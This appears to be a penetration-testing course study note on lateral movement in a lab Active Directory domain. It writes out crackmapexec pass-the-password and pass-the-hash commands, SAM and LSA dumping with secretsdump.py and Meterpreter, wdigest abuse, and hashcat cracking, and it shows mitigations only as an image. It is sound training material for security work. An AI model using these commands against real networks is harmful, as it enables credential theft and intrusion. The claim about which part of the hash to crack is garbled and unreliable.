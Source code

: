 ### Hash Pass, Hash Dumping, and Cracking

Pass the Password / Pass the Hash  
&ensp;&ensp;crackmapexec has been updated to netexec.  Same tool, different name  

If we've gathered any SAM hashes or cracked passwords, we can leverage both to move laterally  

Pass the Password  
`crackmapexec smb 10.0.0.0/24 -u fcastle -d PNPT.local -p Password1`  
&ensp;Here we're using SMB to try the username and password on the PNPT.local domain for all addresses in the 10.0.0.0/24 range.  
&ensp;This will spit out some info.  Green [+] is having access, getting the orange (Pwn3d!) is having admin access  

To gain Hashes you can go a number of different ways.  
&ensp;Meterpreter - `hashdump` will dump the hashes from the local SAM files  
&ensp;`secretsdump.py PNPT.local/fcastle:Password1@10.0.0.200`  
&ensp;`secretsdump.py administrator:@10.0.0.200 -hashes <hash>`  
&ensp;&ensp;This uses a python script to dump the hashes.  Run this on every machine that you have gotten local admin for.  
&ensp;You may be able to get some clear text passwords on older systems with `wdigest` although this may not always be needed.  It works as a watering hole attack in that you would have to enable it and then wait for someone to log in.  

Crack hashes once you get them.  You only need the LM part of the NT:LM hash.  
&ensp;`mousepad ntlm.txt`  
&ensp;Enter the LM part of the hash  
&ensp;`hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt -O`  
&ensp;&ensp;Another example of hashcat.  
	


Pass the Hash attack (NTLMv1 will work, will not work on NTLMv2)  
`crackmapexec smb 10.0.0.0/24 -u administrator -H <hash> --local-auth`  
&ensp;Here we use SMB to pass the administrator hash we collected on different machines as a local account.  
&ensp;Same color key applies, green +, (Pwned!), or STATUS_LOGON_FAILURE  
&ensp;&ensp;We can also add `--sam` at the end to dump the SAM file as well instead of using secretsdump.py  
&ensp;&ensp;We can also add `--shares` to enumerate what shares are on the device  
&ensp;&ensp;`--lsa` will dump the 'local security authority'  
&ensp;&ensp;&ensp;All of these can also be done with secretsdump.py  
&ensp;&ensp;`crackmapexec smb -L` will show different built in modules  
&ensp;&ensp;&ensp;`-M lsassy` at the end will run the Module, lsassy.  -M and module name  
&ensp;CME will keep a database of tried (successful and unsuccessful) passwords  

Accessing the CME database  
&ensp;`cmedb` will kick you into the cme database  
&ensp;&ensp;type `help` to get a list of commands  


Mitigation for these attacks  
![pic1](Images/pic1.png)  

